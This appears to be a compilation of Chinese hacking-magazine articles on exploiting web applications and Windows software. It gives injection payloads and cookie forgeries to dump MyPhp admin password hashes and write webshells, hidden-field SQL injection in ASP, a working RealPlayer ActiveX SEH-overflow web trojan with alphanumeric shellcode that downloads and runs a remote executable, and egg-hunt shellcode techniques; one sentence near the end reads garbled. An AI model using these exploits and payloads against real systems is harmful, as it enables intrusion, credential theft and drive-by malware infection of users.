我们直接访问 `logs.php` 页面，因为 `skins/default/cn_logs.html` 文件（`$skins` 为 default，`$language` 为 cn）不存在返回空白；但是如果利用 JavaScript 语句修改 Cookie，将返回 `skins/blog/cn_logs.html` 模板文件页面，同时提交博客文章的 id 就会显示该博客文章的有关信息，如图13所示。

```javascript
javascript:alert(document.cookie="language=%2e%2e%2fblog%2fcn")
// %2e 为“.”，%2f 为“/”，即 language=../blog/cn
```

利用此漏洞还可以访问到 `adminc/skins/default` 中的部分文件，只要根目录存在对应的 `_***.html` 页面文件即可。利用 `rss.php` 确定出博客文章的 id，如图14所示。

漏洞利用步骤：

- 1）确定博客文章 id；
- 2）确定该博客文章的评论数；
- 3）表单提交注入语句（如图15所示），页面跳转到图13；
- 4）如果评论数 +1 时注入语句中的条件成立，否则不成立，然后后退到提交表单页，修改注入语句中 MID 函数的第 2 个参数，重复进行。

## 漏洞3：绕过逗号

`product_cart.php`、`product_cart_c.php`、`product_order.php` 等文件的变量 `$c_cart` 存在数字型注入点。代码如下：

```php
$cart = $_COOKIE['c_cart'];
$smarty->assign('cart', $cart);
$list = explode('/', $_COOKIE['c_cart']);
// 使用“/”分割成数组
for($i=0; $list[$i]!=''; $i++) {
    $record = explode(',', $list[$i]);
    // 使用“,”分割成数组
    //$record[0]="55 union select * from mp_blog_logs join mp_members a join mp_about on (a.groupid=1)";
    $rels = $db->query("select * from {$prefix}_product where id=$record[0]"); // 数字型注入点
    $rels = $db->getarray($rels);
......
}
```

漏洞是很明显的，但是语句“`$record = explode(',', $list[$i]);`”限制我们提交的注入语句中不能使用逗号，这是致命的！因为 union 语句和 mid 函数都要使用逗号，看来常规的注入语句是做不到的。

绕过逗号，首先我们知道 `mp_product` 表共 62 个字段，而且最终能在页面显示出来是第 12 个和第 38 个字段，如图16所示。

图16

于是我们使用 Join 语句联接表！Join 语句基本语法为：

```sql
Select * From Table1 a Join Table2 b on (a.id=b.id)
// 此语句返回的结果集字段数 = Table1字段数 + Table2字段数
```

假如 Table2 为 `mp_members` 表，其字段数为 38 个，而 password 是第 3 个字段，所以 password 要能显示在页面，Table1 表的字段数就必须是 9 或 35，即？+3=12 或？+3=38！但是 select 语句返回的字段数必须为 62，这样还必须一个字段数为 15 的 Table3。呵呵，这是不是有点像小学的凑数作业呢？如果表示成多元方程式就是：

```text
T1+3=12
T2=38
T1+T2+T3=62
求解得到：T1=9, T2=38, T3=15。
```

读者可能会担心，不一定能找到字段数为 T1、T3 值的表，其实我们还可以将 T1、T3 继续分解的。这里使用的注入语句为“`55 union select * from mp_blog_logs join mp_members a join mp_about on (a.groupid=1)`”；因为变量是以 `$_COOKIE` 方式获得，所以还要用如下的 JavaScript 语句修改 Cookie，然后请求漏洞文件便可注出管理员密码的 MD5 值，如图17所示。

图17

```javascript
javascript:alert(document.cookie="c_cart="+escape("55 union select * from mp_blog_logs join mp_members a join mp_about on (a.groupid=1) "))
```

## 漏洞4：`vote.php` 文件在“act=vote”模块中的 `$vote` 变量未过滤导致注入

代码如下：

```php
case 'vote':
$id = intval($_POST['id']);
$votetype = intval($_POST['votetype']);
if ($votetype == 0) { // 单选，可外部提交
    $vote = $_POST['vote'];
    if (empty($vote)) {
        echo '<meta http-equiv="Content-Type" content="text/html; charset=utf-8">';
        exit('选项不能为空');
    } else {
        $ballot = 'ballot_'.$vote; // 注入变量
        $db->update("update {$prefix}_vote set $ballot=$ballot+1 where id=$id");
        // 注入语句
......
    }
}
```

可见此漏洞同样需要观察投票数的变化，我们可以构造 `$vote` 变量为“`2=(select Ord(Mid(password,1,1)) from mp_members where groupid=1) where id=1%23`”，注入后，投票1的选项2的投票数将等于 password 的第1位字符的十进制 ASCII 值。当然，这需要开启投票功能。详细的利用方法就留给读者了，本文不做讨论。

## 漏洞5：上传 0Day 漏洞

修改要上传文件的扩展名为“.php.”，即可用 `adminc/.../down_upload.php` 上传。此漏洞已被爆出，本文就不做过多说明，但是此漏洞暴露了 PHP 的 `$_FILES` 在获取文件扩展名时存在问题。即获取 `*.php.` 文件的扩展名为“.”，于是 `strstr(".doc|.zip", ".")` 条件为真，所以允许上传。

## 漏洞6

此漏洞影响 MyPhp V3.1 版的硕美网站管理系统，`adminc/include/templet.php` 页面可以直接写马。分析略，首先使用 `javascript:alert(document.cookie="admin_c_usergroupid=1")` 修改 Cookie，通过后台权限验证，然后访问如下链接，结果如图18所示。

```text
/adminc/include/templet.php?act=tem&url=../../index.php&sort=1
```

修改 `url` 参数为新文件名，然后输入内容，保存写马。虽然 4.0 版使用了 Session 验证后台登录，不能直接利用此漏洞，但这是一个很好的后台写马方法。

本文通过对绕过 XUAS 和“一流”防注入的浅析，爆出了 XUAS 和 MyPhp 的最新漏洞，有些漏洞不能用常规方法注入，但是“办法总比困难多”嘛！另外，这两套系统还存在可以伪造 `HTTP_X_FORWARDED_FOR` 的漏洞，利用的关键是绕过验证码和显示结果。对于 MyPhp，利用此漏洞有可能直接注册管理员用户，但因为要使用到 PHP 的 `fsockopen` 函数，暂不作讨论。

前置知识：ASP

关键词：脚本、注入、Hidden 参数

## Hidden 下的注入攻击

最近在写一套 ASP 同学录程序，随着页面的增加，编写过程中出现了一些疏漏，犯了许多错误，特别是 hidden 方式下的注入，觉得很有必要跟大家说明一下。

在其中的一个更改用户信息的页面 `view.asp`，我写下了这样的关键代码：

```html
......
<form name=form1 method=post action=editok.asp>
<input type=hidden value="<%=rs("username")%>" name=changeuser>
......
```

```asp
<!--#include file=safe.asp-->
<!--#include file=conn.asp-->
<%
realname=request.querystring("realname")
set rs=server.createobject("adodb.recordset")
sql="select * from class where realname='" & realname & "'"
rs.open sql,conn,3,3
%>
```

首先看 `sql="select * from class where realname='" & realname & "'"`，这条 SQL 语句在整个文件中没有进行任何过滤，就直接带入了数据库查询。正常的访问应该是这样的格式：`view.asp?realname=杨广平`，打开可以正常显示；接着访问 `view.asp?realname=杨广平' and '1'='1`，返回了正常页面，如图1所示。注意最后一个 `1` 后面是没有引号的，因为 SQL 语句中有一个单引号。

图1 返回正常页面

图2 返回不正常页面

`realname=杨广平' and '2'='1'`，如图2所示，返回了不正常的页面。

确定完漏洞，我们只要构造相应的语句就可以来进行猜解了。例如要判断是否存在 admin 表，可以构造地址“`view.asp?realname=杨广平' and exists(select * from admin) and '1'='1'`”，用两个 and 来连接语句就可以实现了。通过构造地址，发现并不存在此表。这样一来，我们就可以直接修改两个 and 之间的语句“`exists(select * from admin)`”来进行注入猜解了。因此，我们在编写程序的时候，要时刻注意对 SQL 语句中的各个变量进行严格的过滤。

看完第一个问题，我们再来看看另一个问题。代码中有一句“`<input type=hidden value="<%=rs("username")%>" name=changeuser>`”，说明有一个参数 changeuser 通过 hidden 方式传递出去了。既然传递出去了，那么一定是有相应的用处的。我们转向 `editok.asp` 这个页面看看 changeuser 到底有什么用。关键代码如下：

```asp
......
username=request("changeuser")
......
set rs=server.createobject("adodb.recordset")
sql="select * from class where username='" & username & "'"
rs.open sql,conn,3,3
......
```

原来 changeuser 到了 `editok.asp` 这个页面被带入了数据库进行查询。那么程序对这个 changeuser 参数有没有进行什么处理呢？完全没有进行任何处理。在一些程序员眼中，因为是 hidden 类型的参数，用户看不见，所以就没有进行任何处理，但实际上，用户通过查看源代码，是可以发现 hidden 参数的。这里的 hidden 注入和第一个问题中提到的 realname 参数的注入类型是一样的，只不过一个在明，一个在暗。我们来看看怎样进行注入猜解。

首先是判断漏洞的存在。同样构造 changeuser 的值为一定的注入语句就行了。因为这里的 changeuser 是用户名，我们可以通过查看其他同学的用户名，对其信息进行修改。也就是说，我们不仅可以修改自己的信息进行注入，甚至不需要登录后台，就可以对别人的信息进行修改了。

下面演示如何修改其他人的信息。例如我们用的是杨广平的账号，用户名是枫叶蓝。我们要修改另一个人的信息，用户名是小黑，就可以右键查看源代码，将“`<input type=hidden value="枫叶蓝" name=changeuser>`”这句改为“`<input type=hidden value="小黑" name=changeuser>`”，然后将 action 后面的地址保存为绝对路径，然后在本地打开保存的页面，在各项中填入想要的内容，提交就行了。经过我的测试，完全可以修改成功。

之后再来看看注入。为了方便，我们完全有理由将这里的 hidden 类型变成一个 text 文本框，然后修改语句。例如，将“`<input type=hidden value="小黑" name=changeuser>`”改成“`<input type=text value="小黑" name=changeuser>`”，这样，我们就可以在这个文本框中输入任何注入语句了。首先输入 `小黑' and '1'='1'`，提交后提示修改成功；再提交 `and '2'='1'`，提示找不到记录。与第一个地方类似，我们可以构造语句在文本框中填写“`小黑' and exists(select * from admin) and '1'='1'`”进行猜解，这里就不再赘述了。

需要注意的是，如果我们在实际入侵过程中进行这样的注入，还可能遇到另一个问题，就是程序防止了外部提交数据。那我们该怎么办呢？此时，我们可以通过使用啊D写的一个小工具“IE恶搞迷”来实现，具体的使用方法在以前的文章当中介绍过，这里就不再重复说明了。

以上为大家介绍了两处注入，其形式虽然有所不同，但本质上是一个类型的。大家以后无论是在程序编写还是在入侵过程当中，都可以通过发掘 hidden 方式下的注入来进行攻击。同时辅之以小工具，hidden 方式的注入将变得十分方便容易。

适合读者：溢出爱好者

前置知识：汇编语言，缓冲区溢出基本原理

# 菜鸟版 Exploit 编写指南之四十三

## 隔山打牛之 RealPlayer 栈溢出


文／图 gyzv（江苏大学信息安全系&EST）

不知从什么时候起，ActiveX 控件的安全问题变得如此严峻，从杀毒软件到迅雷，再到暴风影音等播放器，真是一波未平一波又起。最近又出了 RealPlayer ActiveX 方面的一个问题，网上已经有截获的网马，里面还有“YuanGe”的字样，黑客界的老前辈啊。这个漏洞有一定的特殊之处，IE 中的数据被传递给 RealPlayer 的时候，产生了栈溢出，所以才称之为“隔山打牛”。不过 RealPlayer 在 24 小时之内就发布了补丁，动作真是相当迅速，但是 RealPlayer 不能自动升级，还是有大批的用户暴露在了枪口前。经常打补丁是很重要的，现在 Windows 平台这个大木桶已经到处都是短板，安全形势不容乐观啊。

用 OD 启动 RealPlayer，然后运行 POC，如图 1 所示。看左下角的“正在写入到 [00130000]”，这是典型的栈溢出，写到相邻的不可写段了。漏洞的利用思路也很简单，就是覆盖 SEH。


图1

## 调试

要想写 Exploit，调试技能是必备的。POC 代码非常简单，只有 10 行不到的代码。刚开始的时候我用 OD 附加到 IE 上，怎么也截获不了异常，都闷了半天，原来溢出发生在 RealPlayer 中……当 ActiveX 控件运行以后，它会启动一个隐藏窗口的 RealPlayer 进程，随后它会将播放列表通过一个 WM_COPYDATA 消息发送给隐藏窗口，但是 RealPlayer 没有对 ActiveX 控件传进来的数据进行验证，导致了栈溢出。POC 中的代码如下。

我们看看当前的 SEH 链，如图 2 所示。SEH 链被 0x3F3F3F3F 覆盖了，但是我们明明提交的是 0x90909090 啊，显然应该是经过了 Unicode 的转换，也就是从 ASCII->Unicode->ASCII 的过程。


图2

```html
<html>
<script>
var payload="";
real=new ActiveXObject('IERPCtl.IERPCtl.1');
while (payload.length != 0x8000)
    payload=payload + unescape("%90");
real.Import("test.avi",payload,"",false,false);
</script>
</html>
```

用 OD 启动 RealPlayer，然后运行 POC，如图 1 所示。

```asm
62E71901  8B55 FC      MOV EDX,DWORD PTR SS:[EBP-4]
62E71904  6A 00        PUSH 0
62E71906  6A 00        PUSH 0
62E71908  56           PUSH ESI
62E71909  57           PUSH EDI
62E7190A  6A FF        PUSH -1
62E7190C  51           PUSH ECX
62E7190D  6A 00        PUSH 0
62E7190F  52           PUSH EDX
62E71910  C607 00                MOV BYTE PTR DS:[EDI],0
62E71913  FF15 3C30EA62          CALL DWORD PTR DS:[<&KERNEL32.WideCharToMultiByte>] ; kernel32.WideCharToMultiByte
```

```text
{ "[esp-8]",  "LLLLLLLLLYIIIIIII...QZ", mixedcase_ascii_decoder_body },
{ "[esp-4]",  "LLLL7YIIIIIII...7QZ", mixedcase_ascii_decoder_body },
{ "[esp]",    "YIIIIIIII...QZ", mixedcase_ascii_decoder_body },
{ "[esp+4]",  "YYYYIIIIIII...I7QZ", mixedcase_ascii_decoder_body },
{ "[esp+8]",  "YYYYIIIIIII...IQZ", mixedcase_ascii_decoder_body },
{ "[esp+C]",  "YYYYYIIIIII...7QZ", mixedcase_ascii_decoder_body },
{ "[esp+10]", "YYYYYYIIIIII...IQZ", mixedcase_ascii_decoder_body },
{ "[esp+14]", "YYYYYYYIIIII...7QZ", mixedcase_ascii_decoder_body },
{ "[esp+18]", "YYYYYYYYIIII...IQZ", mixedcase_ascii_decoder_body },
{ "[esp+1C]", "YYYYYYYYYIII...7QZ", mixedcase_ascii_decoder_body },
{ "seh", mixedcase_w32sehgetpc "...7QZ" // ecx code }
```

这是在 `erpplug` 中处理播放列表的一段代码，`WideCharToMultiByte` 使我们的 Exploit 编写难度加大，因为不得不使用纯字符 Shellcode，这样经过 ASCII→Unicode→ASCII 转换后仍要能正确运行。另一个问题是覆盖 SEH 链地址必须符合 Unicode 编码规则。幸运的是，`0x60093179` 处的 `pop pop ret` 符合要求，可构造形如 `NNNNNN[jmp06 jmp04][0x60093179][Shellcode]` 的堆栈，执行后 EIP 跳入 Shellcode。文中调试版本为英文版 RealPlayer 6.0.14.544。

## 纯字母数字的 ShellCode

关于纯字母数字 Shellcode，思路是将 Shellcode 分成“解码头 + 主体”两部分。解码头由纯字符指令组成，主体按算法拆分成两个字节；解码头获取控制权后还原并执行主体。已有现成解码头和编码函数可直接使用，下面给出解码头表。

```text
{ "nops", "IIIIIIIIIIII...I7", mixedcase_ascii_decoder_body },
{ "eax",  "PYIIIIIIII...I7QZ", mixedcase_ascii_decoder_body },
{ "ecx",  "IIIIIIIIIIII...I7QZ", mixedcase_ascii_decoder_body },
{ "edx",  "JJJJJJJJJJ...7RY", mixedcase_ascii_decoder_body },
{ "ebx",  "SYIIIIIIII...I7QZ", mixedcase_ascii_decoder_body },
{ "esp",  "TYIIIIIIII...I7QZ", mixedcase_ascii_decoder_body },
{ "ebp",  "UYIIIIIIII...I7QZ", mixedcase_ascii_decoder_body },
{ "esi",  "VYIIIIIIII...I7QZ", mixedcase_ascii_decoder_body },
{ "edi",  "WYIIIIIIII...I7QZ", mixedcase_ascii_decoder_body },
{ "[esp-10]", "LLLLLLLL...LYIIII...QZ", mixedcase_ascii_decoder_body },
{ "[esp-C]",  "LLLLLLLL...LYIIII...QZ", mixedcase_ascii_decoder_body }
```

哪个寄存器指向了 Shellcode，我们就选用相应的解码头。至于编码函数，可以用如下函数实现。

```c
#define ascii_decoder "SYIIIIIIIIIIIIII7QZjAXP0A0A...
char* alphaEncodeShellcode(char *shellcode, int size)
{
    int i, A, B, C, D, E, F;
    char *valid_chars = "0123456789BCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz";
    char *encShellcode = (char*)malloc(sizeof(ascii_decoder) + (size * 2));
    char buff[4];
    int z = 0;
    strcpy(encShellcode, ascii_decoder);
    for (; z < size; z++) {
        A = (shellcode[z] & 0xf0) >> 4;
        B = (shellcode[z] & 0x0f);
        F = B;
        i = rand() % strlen(valid_chars);
        while ((valid_chars[i] & 0x0f) != F) { i = ++i % strlen(valid_chars); }
        E = valid_chars[i] >> 4;
        D = 0 ? (A-F) & 0x0f : (A^E);
        i = rand() % strlen(valid_chars);
        while ((valid_chars[i] & 0x0f) != D) { i = ++i % strlen(valid_chars); }
        C = valid_chars[i] >> 4;
        sprintf(buff, "%c%c", (C<<4)+D, (E<<4)+F);
        strcat(encShellcode, buff);
    }
    return encShellcode;
}

int main()
{
    char* alpha = alphaEncodeShellcode((char*)sc, sizeof(sc) - 1);
    printf("%s", alpha);
    __asm
    {
      xor ecx, ecx
      mov ebx, alpha
      jmp ebx
    }
    return 1;
}
```

在这个例子中，我们在 0x60093179 处下硬断点，然后 Shift+F9 跑起来，断在 0x60093179 处，单步跟踪几步就跳入到了 Shellcode。ESP 指向 0012D81C，EIP 指向 0012EEDC，也就是 Shellcode 所在的位置。我们可以选择 `TYIIIIIIIIIIIIIIII7QZ` 作为我们的解码头，但是 ESP 当前并不指向 0012EEDC，怎么办呢？此时的堆栈情况如下。

```text
0012D818  0012EED4
0012D81C  0012D914
0012D820  0012D8CC
0012D824  0012EED4  ; 指向下一个 SEH 记录的指针
0012D828  7C9237D8  ; SE 处理程序
0012D82C  0012EED4
```

我们发现堆栈中有一个 0012EED4，离我们的 0012EEDC 很接近，只有 4 个字节，因此我们可以调整 ESP 值以满足我们的要求。调整 ESP 的指令也必须是字符，很幸运，有很多这样的指令可以用。

```text
0012EEDC 4C   DEC ESP
0012EEDD 4C   DEC ESP
0012EEDE 4C   DEC ESP
0012EEDF 4C   DEC ESP
0012EEE0 5C   POP ESP ; 执行到这的时候 ESP 为 0012EED4
0012EEE1 58   POP EAX ; ESP 为 0012EED8
0012EEE2 58   POP EAX ; ESP 为 0012EEDC
0012EEE3 58   POP EAX ; ESP 为 0012EEE0
0012EEE4 58   POP EAX ; ESP 为 0012EEE4
0012EEE5 58   POP EAX ; ESP 为 0012EEE8
0012EEE6 44   INC ESP ; ESP 为 0012EEE9
0012EEE7 4C   DEC ESP ; ESP 为 0012EEE8
```

这样，我们的 ESP 就顺利指向了 Shellcode。到此，写 Exploit 的障碍就全部解决了，组装完成后的 Exploit 如下。

```html
<html>
<script>
var payload="";
real=new ActiveXObject("IERPCtl.IERPCtl.1");
for(i=0;i<32*148;i++) payload += "S";
for(i=0;i<36;i++) payload += "A";
payload = payload + unescape("%75%06%74%04") + unescape("%79%31%09%60");
...
</script>
</html>
```

```javascript
AdjESP = "LLLL\\XXXXXXLD";
Shell = "TYIIIIIIIIIIIIIIII7QZjAXP0A0AkAAQ2AB2BB0BBABXP8...";
...
payload = payload + AdjESP + Shell;
while (payload.length != 0x8000)
  payload = payload + "B";
real.Import("waiting.avi", payload, "", false, false);
```

我们访问这个 HTML 文件，即可顺利下载并执行 `http://www.gyzy.org/gyzy.exe` 文件，如图 3 所示。


图3

由于溢出并不是发生在 IE 中，所以并不会导致 IE 的崩溃。就算崩溃，也是没有任何征兆的，因为默认 RealPlayer 在后台是隐藏打开的，发生异常后就直接退出了，不会有提示。所以相对来说，这个漏洞的危害还是比较大的，中马几乎就是神不知鬼不觉的。在测试的时候，大家可能会发生测试成功一次以后，就不能再溢出的情况。我发现只要卸载 RealPlayer 中的媒体库一项即可。被截获的网马对 RealPlayer 的版本进行了细致的判断，在覆盖 SEH 的时候分别使用了不同的地址，考虑得相当完善。另外，它还通过 Cookie 使网马只执行一次。这个技巧现在也用得比较多了，实现起来也非常容易。

加如下的 JavaScript 代码就可以达到目的。

```javascript
var cookieString = document.cookie;
var start = cookieString.indexOf("realexp=");
if (start != -1) {}
else {
  var expires = new Date();
  expires.setTime(expires.getTime() + 1 * 24 * 60 * 60 * 1000);
  document.cookie = "realexp=real;expires=" + expires.toGMTString();
  Exploit();
}
```

## 小结

通过这个 RealPlayer 溢出漏洞，我们学习到了网马中常用到的一些技巧，以及如何去调试，并给了相关实例，希望对感兴趣的朋友能起到抛砖引玉的作用。毕竟“授人以鱼”不如“授人以渔”。文章写得比较仓促，错误疏漏在所难免，敬请广大读者指正，有任何问题欢迎到黑防论坛，我们共同讨论。


---

适合读者：编程爱好者

前置知识：汇编、VC

# 菜鸟版 Exploit 编写指南之四十四

## 安全搜索进程内存空间

文／图 Cmdhz

Shellcode 的编写好像是一个永远说不完的话题。最近在编写一个漏洞的利用程序时，我遇到了在进程空间中安全搜索 Shellcode 的问题。在网上搜索了一番也没有什么有用的东西，在为这个问题困扰了许久之后，我请教了一位大虾后才知道，原来国外的一些大牛们早就做过这方面的深入研究了。在参阅了一些相关资料后，终于解决了如何安全搜索内存空间的问题。好东西不敢独享，将其写出来献给如我一样正在艰难学习中的菜鸟，大虾看了就飘过吧！

很多情况下，在编写 Shellcode 的时候，我们都会面临着如何安全地搜索进程空间，找到我们可爱的、没有被破坏的 Shellcode 的问题。例如，有些溢出程序对编码有着特殊要求，比如会将 0x2F（“/”）转化为 0x5C（“\”）等情况，甚至还有不能出现 0xFF 的情况。这个时候可能不管你怎么变形都无法符合要求。有些文件格式型的溢出，由于文件结构自身的特点，在溢出点附近不可能放入大的 Shellcode。溢出产生的时候，我们都必须用一个简短的 Search Code 查找到原始的 Shellcode 后，再执行这个功能 Shellcode 来实现我们的溢出利用。

这种通过设置一定的标志字节，由小 Shellcode 在内存中查找大 Shellcode 的方法有一个有趣的叫法：Egg-Hunt。在栈溢出利用时，EIP 开始在堆栈里执行后，由于堆栈在内存中的地址往往比较低，如 0x0012XXXX，而原始 Shellcode 却在 0x07BAXXXX 等较远的高地址。直接搜索内存的时候会由于违规访问未分配内存、用户断点、浮点异常等问题而造成系统崩溃。于是我们好不容易获得 CPU 控制权之际，却得到了如图 1 和图 2 所示的报错提示框，刚刚得到的 CPU 控制权就这样丢失了。


图1 内存搜索错误

因此，我们必须实现对进程空间的安全搜索，最终找到实现功能的 Shellcode，并在那里安全着陆。对于这样 Egg-Hunt 的 Shellcode 的编写……图2 异常详细信息

编写搜索程序时，有如下 3 个基本要求。

- 搜索程序的鲁棒性：这样的要求主要体现在搜索程序必须要有处理“非法地址”访问的能力，才能够安全地搜索进程地址空间，否则对无效地址的访问将导致被溢出进程的崩溃。
- 搜索程序的简洁性：汇编代码的体积是编写搜索程序时需要考虑的一个非常重要的方面，因为绕过溢出环境对 Search Code 大小的限制是我们使用这种两段式 ShellCode 的原因。
- 搜索程序的高效性：溢出的时候，我们当然希望能够尽快跳转到 ShellCode 去执行我们希望的操作，否则留下一个不能得到及时更新的屏幕，将会是溢出特征的一个最好提示。

在以上 3 个对 Egg-hunt 的要求中，程序的鲁棒性是最重要的，因为在执行对进程地址空间搜索的时候，非法的访问毕竟是我们最常遇到的问题。我们当然不希望由于搜索内存失败而造成程序的崩溃，使我们丧失了执行 ShellCode 的机会。

下面我们将主要探讨一些在 Windows 平台下常用的安全搜索内存空间的方法。

## 利用 SEH 机制安全搜索内存空间

Windows 系统中的 SEH 机制是大家在进行溢出攻击时常常利用的一种机制。在这里，我们在执行进程空间搜索之前首先注册一个异常处理函数，用它来捕获并完成对“非法地址访问”及各种“运行时异常”的处理，以提高搜索程序的鲁棒性，使我们能够顺利地找到进程空间中的 ShellCode。

为了对这样的方法的原理有更好的理解，我们再将 Windows 系统中异常处理方面的内容复习一下。

### 1) Windows 的结构化异常处理（SEH）

Windows 在创建线程时，操作系统会为每个线程分配 TEB 结构，并且将 FS 段选择器指向当前线程的 TEB 数据结构（结构的定义可以参见参考资料）。

```c
typedef struct _NT_TIB {
    struct _EXCEPTION_REGISTRATION_RECORD *ExceptionList;
    PVOID StackBase;
    PVOID StackLimit;
    PVOID SubSystemTib;
    union {
        PVOID FiberData;
        ULONG Version;
    };
    PVOID ArbitraryUserPointer;
    struct _NT_TIB *Self;
} NT_TIB;
```

偏移为 0 的 _EXCEPTION_REGISTRATION_RECORD 主要用于处理 SEH，因此我们使用 FS:[0] 就能够访问 SEH 了，其结构定义如下：

```c
EXCEPTION_REGISTRATION struct {
    Prev    dd ; 前一个 EXCEPTION_REGISTRATION 结构
    Handler dd ; 异常处理例程入口
}_EXCEPTION_REGISTRATION ends
```

其中 Prev 指向前一个 EXCEPTION_REGISTRATION 的指针，因此线程的异常处理例程就形成了一个链状结构。当系统处理异常时就查找异常处理链表，调用相应的异常处理函数执行对程序异常的处理。

### 2) 异常信息

当一个异常发生时，操作系统向异常处理的线程堆栈中压入 3 个结构，这 3 个结构是 EXCEPTION_RECORD、CONTEXT 和 EXCEPTION_POINTERS。

EXCEPTION_RECORD 结构包含了有关最近发生异常的详细信息，这些信息独立于 CPU，其结构如下：

```c
EXCEPTION_RECORD STRUCT {
+0  DWORD ExceptionCode;       // 异常代码
+4  DWORD ExceptionFlags;      // 异常标志
+8  struct _EXCEPTION_RECORD * // 指向另一个 EXCEPTION_RECORD 的指针
+C  PVOID ExceptionAddress;    // 异常发生的地址
+10 DWORD NumberParameters;    // 与异常联系的参数数量(0-15)
+14 ULONG_PTR ExceptionInformation[EXCEPTION_MAXIMUM_PARAMETERS];
} EXCEPTION_RECORD
```

其中，ExceptionCode 字段定义了产生异常的原因。图 2 即表示程序引发了一个 EXCEPTION_ACCESS_VIOLATION 异常，异常代码为 0xC0000005，查阅该异常代码后，我们知道程序读写了一个没有可读写属性的地址。

CONTEXT 结构包含了特定处理器的寄存器数据，系统使用 CONTEXT 结构来执行各种内部操作。该结构可参考 Winnt.h 的定义，在 X86 平台下该结构定义为 CONTEXT86，后面将直接用 CONTEXT 代指 CONTEXT86。由于该结构比较长，出于篇幅考虑，我只列出结构的部分成员。

```c
typedef struct _CONTEXT86 {
    ...
    ; 通用寄存器
    +9C DWORD Edi;
    +A0 DWORD Esi;
    +A4 DWORD Ebx;
    +A8 DWORD Edx;
    +AC DWORD Ecx;
    +B0 DWORD Eax;
    ; 控制寄存器
    +B4 DWORD Ebp;
    +B8 DWORD Eip;
    +BC DWORD SegCs;
    +C0 DWORD EFlags;
    +C4 DWORD Esp;
    +C8 DWORD SegSs;
    ...
} CONTEXT86;
```

CONTEXT 结构非常重要，通过修改 CONTEXT 结构中的成员，可以使程序能够在异常时执行相应的处理工作，使程序能够继续执行。在 Windows XP 系统中，系统调用 NTDLL.DLL 模块中的 KiUserExceptionDispatcher 函数来执行异常处理，该函数最终将程序中注册的异常处理函数的地址装入 ECX，然后调用执行。此时堆栈的分布情况如下：

```text
Esp+0x0  -> *EXCEPTION_RECORD
Esp+0x4  -> *EXCEPTION_REGISTRATION（简称 ERR）
Esp+0x8  -> *CONTEXT record
Esp+0xC  -> *Param
```

如果注册的异常处理函数将 CONTEXT 结构中保存的 EIP 值修改到一个“安全的地方”，那么执行完异常处理函数后，程序将返回到“安全代码”中去执行。

下面的例子程序将在执行搜索内存的操作之前向异常处理链表中注册一个异常处理函数，用于在发生地址访问错误的时候，修正程序的执行路径，修改 EIP 的值为发生访问违例（执行内存比较）的下一条指令地址。这样程序将能够安全、顺利地执行完搜索内存的操作。

为了弄清楚异常发生时系统的状态，我们进行如下的跟踪分析。

在 OllyDBG 中打开程序 Seh.exe，由于搜索的起始地址为 0x200000 将会导致一个访问异常，因此我们在 OllyDBG 的命令窗口中输入“bp 0x7C9237BD”，在 Windows XP 系统将要调用异常处理函数时断下来观察堆栈的状态（Windows 2000 中是 0x77F8E43E），此时程序的状态如图 3 所示。

图3 KiUserExceptionDispatcher 函数调用异常处理时的堆栈状态

此时 ESP 的值为 0x12FBF0，该地址指向 EXCEPTION_RECORD 结构，结构偏移为 0x0 处保存了异常代码 0xC0000005，偏移为 0xC 处保存了异常发生的地址 0x401017，该指令是我们执行模式匹配的指令 scasd。ESP+4（0x12FFBC）保存了指向下一个异常处理结构的指针；ESP+8（0x12FCF0）保存了指向 CONTEXT 结构的指针，该结构偏移为 0xB8 处保存了异常发生时 EIP 寄存器的值 0x401017，偏移为 0x9C 处保存了 EDI 寄存器的值 0x200000。CONTEXT 保存的各寄存器的状态可参见图 4。

图4 异常发生时 CONTEXT 结构的状态

按下 F7 后，执行预定义的异常处理函数。该函数将修正 CONTEXT 中保存的 EIP 的值为指令“add ebx, 010000h”在内存中的地址（0x0040101C）。当程序恢复执行时，将从该指令继续执行内存空间的搜索操作。修改后的 CONTEXT 状态可参见图 5。

图5 修正后 CONTEXT 结构的状态

通过对内存访问异常的处理，可以使 ShellCode 能够安全地执行搜索功能，最终找到我们的“Egg”。

本文附带的程序实际上只是一个用于说明的代码，由于没有判断异常产生的原因，因此在实际应用中有一定的问题。聪明的读者也许会发现，如果在 OllyDBG 中调试该程序会失败，仔细分析后我们发现，导致该程序调试失败的原因是执行单步跟踪时系统也会产生一个异常 EXCEPT_SINGLE_STEP（异常代码约为 `0x80000004`），由于异常处理程序不会进行区别处理，因此导致程序执行失败。

另外，由于 Windows XP 中对异常处理的安全性进行了增强，如果异常处理函数在栈中，系统即认为是不安全的，因此异常处理例程不会得到执行。

## 使用 IsBadReadPtr 函数安全搜索内存空间

IsBadReadPtr 是模块 `kernel32.dll` 中导出的一个函数，其功能是用于判断进程是否拥有对指定内存地址段的读权限。如果具有对某段地址空间的读权限则返回 0，否则返回非 0。该函数原型如下：

```c
BOOL IsBadReadPtr(
  CONST VOID *lp,   // address of memory block
  UINT ucb          // size of block
);
```

使用这种方法进行搜索时，首先调用 API 函数 IsBadReadPtr 判断进程是否具有对指定地址范围的读权限，如果可读则执行标志位判断操作，否则继续寻找下一个地址空间。

细心的读者也许已经注意到了，程序中有两次重复的 `scasd`、`jnz search_loop` 指令。这样做的主要目的是避免把代码段中的 `0x50905090` 误判为标志字节，因此将搜索标志设置为 8 字节（两次重复的 `0x50905090`），以保证真正找到 ShellCode。实际中也可通过以下指令完成两次匹配过程：

```asm
mov  ecx, 2h
repe scasd
```

另外，使用 IsBadReadPtr 进行搜索时，搜索速度相对较慢。跟踪时可发现，当访问没有读权限的空间时，调试器会提示“访问违例”。

范例在 `kernel32` 中，根据请求已忽略调试器短暂停顿导致的搜索变慢问题。查阅资料后确认，该问题主要由内存地址访问竞争引起。

## 使用 NtDisplayString 安全搜索内存空间

NtDisplayString 是 Windows NT / 2000 / XP 系统提供的 Native API 函数，不适用于 Windows 9x。系统内核使用该函数将字符串输出到屏幕（文本模式），蓝屏时的屏幕输出也通过此函数完成。函数原型如下：

```c
NTSYSAPI NTSTATUS NTAPI NtDisplayString(
  IN PUNICODE_STRING String
);
```

之所以可以利用该函数进行安全内存搜索，主要原因是该函数只读取参数数据而不写入；如果参数所指地址不可读，会返回内存访问异常 `0xC0000005`。

另外，`int 2E` 是用于请求实现于 `ntoskrnl.exe` 内部 Native API 函数的软件中断。执行 NtDisplayString 调用的代码片段如下：

```asm
push edx
push 43h
pop  eax
int  2eh
```

